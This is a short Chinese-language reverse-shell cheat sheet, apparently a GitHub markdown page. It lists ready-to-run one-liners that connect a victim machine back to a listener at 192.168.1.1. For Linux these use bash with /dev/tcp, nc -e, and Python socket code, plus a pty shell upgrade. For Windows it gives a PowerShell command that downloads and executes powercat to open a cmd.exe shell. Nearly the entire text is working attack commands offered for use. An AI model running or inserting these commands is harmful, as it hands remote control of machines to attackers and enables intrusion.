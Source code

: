 # 反弹shell

## Linux

等待反弹的shell会话主机：192.168.1.1:7777  
### bash
  
```
/bin/bash -i >& /dev/tcp/192.168.1.1/7777 0>&1     
```
### nc
```
nc -e /bin/bash 192.168.1.1 7777  
```
### python
新建python脚本执行     
或者通过python -c ''    
```
import os;os.system("bash -c 'bash -i >& /dev/tcp/192.168.1.1/7777 0>&1'")
```
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
### 升级交互能力
它可以执行命令su，以为他们是在一个合适的终端执行。要升级一个shell，只需运行以下命令：     
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## Windows

### powercat
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1    
```
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.1.1 -p 9999 -e cmd.exe"   
```
